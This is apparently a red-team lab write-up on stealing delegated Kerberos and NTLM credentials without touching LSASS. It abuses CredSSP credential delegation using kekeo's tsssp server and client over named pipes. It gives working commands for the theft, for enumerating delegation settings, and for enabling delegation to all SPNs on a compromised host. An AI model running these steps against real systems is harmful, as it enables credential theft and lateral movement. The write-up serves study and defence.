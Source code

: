 # Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching LSASS

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv \(RDP\) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.

{% hint style="info" %}
Default Password is a currently logged on user's password.
{% endhint %}

![](../../.gitbook/assets/annotation-2019-08-20-224950.png)

If the Credentials Delegation was enabled as shown below: 

![](../../.gitbook/assets/annotation-2019-08-20-225941.png)

...the machines that are running a termsrv \(RDP\) service would now be allowed to authenticate users who are delegating their credentials. 

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:

![](../../.gitbook/assets/rdp-password-delegation.gif)

## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 \(running as SYSTEM\):

{% code title="attacker@ws01.offense.local" %}
```text
// needs to run as NT SYSTEM
tsssp::server
```
{% endcode %}

{% hint style="info" %}
Kekeo on ws01 must be running as NT\SYSTEM for this to work
{% endhint %}

Now, let's connect to the tsssp server on ws01 from the target computer ws02 \(we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe\):

{% code title="attacker@ws02.offense.local" %}
```text
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```
{% endcode %}

![](../../.gitbook/assets/password-delegation-password-dump-via-named-pipes.gif)

## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration &gt; Policies &gt; Administrative Templates &gt; System &gt; Credential Delegation:

![](../../.gitbook/assets/image%20%28103%29.png)

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

{% code title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::server
```
{% endcode %}

And connect to it from another console:

{% code title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```
{% endcode %}

Below shows \(left\) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:

![](../../.gitbook/assets/image%20%28194%29.png)

## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system \(represented with 0x1\):

![](../../.gitbook/assets/image%20%2850%29.png)

We can then check what SPNs accept delegated credentials:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

![](../../.gitbook/assets/image%20%2858%29.png)

## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

![](../../.gitbook/assets/image%20%2848%29.png)

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```text
Get-NetGPO -UserIdentity spotless
```

![](../../.gitbook/assets/image%20%2896%29.png)

and then parse the policy file:

```text
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

![](../../.gitbook/assets/image%20%2891%29.png)

## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:

{% code title="attacker@target" %}
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
{% endcode %}

## References

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

{% embed url="https://github.com/PowerShell/GPRegistryPolicyParser" %}

